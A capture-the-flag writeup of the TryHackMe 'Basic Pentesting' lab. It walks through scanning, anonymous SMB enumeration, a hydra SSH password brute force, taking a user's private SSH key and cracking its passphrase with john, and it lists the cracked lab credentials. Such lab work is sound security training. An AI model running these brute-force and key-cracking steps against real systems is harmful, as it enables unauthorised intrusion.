 <div align="center">
  
# بسم الله الرحمن الرحيم  

</div>

# TryHackMe: Basic Pentesting Writeup by Mohammed (Azima)

**Room Link:** [Basic Pentesting](https://tryhackme.com/room/basicpentestingjt)  
**Difficulty:** Easy  
**Tags:** `#WebAppSecurity` `#PrivilegeEscalation` `#CTF`

## 1. Reconnaissance

### Nikto Scan
```bash
nikto -h http://10.10.140.120/
```
Result:
![image](https://github.com/user-attachments/assets/27960e1b-c49b-4bdb-af65-cb6403c6beb3)

### Nmap Scan
```bash
nmap -sV -A -T4 <TARGET_IP>
```
Result:
It gave me Open PORTs ,     STATE used , SERVICE used and it is     VERSION


# Nmap Scan Findings - 10.10.140.120

## Open Ports and Services

### Port 22 (SSH)
- **Service**: OpenSSH 7.2p2 Ubuntu 4ubuntu2.4
- **Details**:
  - SSH host keys found (RSA, ECDSA, ED25519)
  - Ubuntu Linux OS indication

### Port 80 (HTTP)
- **Service**: Apache httpd 2.4.18 (Ubuntu)
- **Details**:
  - Server header confirms Apache/2.4.18 on Ubuntu
  - No title returned (text/html content)

### Ports 139/445 (SMB)
- **Service**: Samba smbd 4.3.11-Ubuntu
- **Details**:
  - Workgroup: WORKGROUP
  - NetBIOS computer name: BASIC2
  - Samba version: 4.3.11-Ubuntu
  - Security mode: Message signing enabled but not required
  - Guest access allowed
  - OS identification as Windows 6.1 (Samba's Windows compatibility layer)

### Port 8009 (AJP13)
- **Service**: Apache Jserv (Protocol v1.3)
- **Details**:
  - Supported methods: GET, HEAD, POST, OPTIONS

### Port 8080 (HTTP)
- **Service**: Apache Tomcat 9.0.7
- **Details**:
  - Possible open proxy
  - Tomcat default page visible

### Web Enumeration
```bash
gobuster dir -u http://<TARGET_IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

**Discovered:**
- `/development` - Contains two files:
  - `dev.txt`
 
    
    ![image](https://github.com/user-attachments/assets/38100a51-be7e-47a9-a506-d0f52a92422a)

  - `j.txt`
 
    
    ![image](https://github.com/user-attachments/assets/bd39dc78-a756-42e3-a095-2e126c7f46cf)

- `/server-status` - Gives (Forbidden:
You don't have permission to access /server-status on this server.)

## 2. Exploitation

### SMB Enumeration
```bash
smbclient -L //<TARGET_IP> -N
```
Found an anonymous share.
Made Ls to see Files Then made get staff.txt to download the file and then opened it and found that 
![image](https://github.com/user-attachments/assets/a0455013-9802-4ffb-97a4-d0861161de3e)


### Brute-Forcing SSH
```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://<TARGET_IP>
```

**Credentials Found:**
- **Username:** jan
- **Password:** armando

**SSH Access:**
```bash
ssh jan@<TARGET_IP>
```

## 3. Privilege Escalation

### Checking Sudo Permissions
```bash
sudo -l
```
Discovered jan could run `/bin/bash` as user kay:
```bash
sudo -u kay /bin/bash
```

### Accessing Kay's SSH Key
Found private key at `/home/kay/.ssh/id_rsa`

**Cracking Process:**
```bash
python /usr/share/john/ssh2john.py id_rsa > kay_hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt kay_hash.txt
```
**Cracked Passphrase:** `beeswax`

**Logged in as kay:**
```bash
ssh -i id_rsa kay@<TARGET_IP>
```

### Root Flag
Found in `/root/root.txt` after further enumeration.

## 4. Lessons Learned
- 🚨 **Weak Passwords:** Default credentials (jan:armando) allowed initial access
- ⚠️ **Misconfigured Sudo:** Improper sudo permissions enabled privilege escalation
- 🔑 **Exposed SSH Keys:** Private keys without strong passphrases are dangerous

---

🔗 **More Writeups:** [My GitHub Security Writeups](https://github.com/Mohammed-Abdelaziem/Writeups)
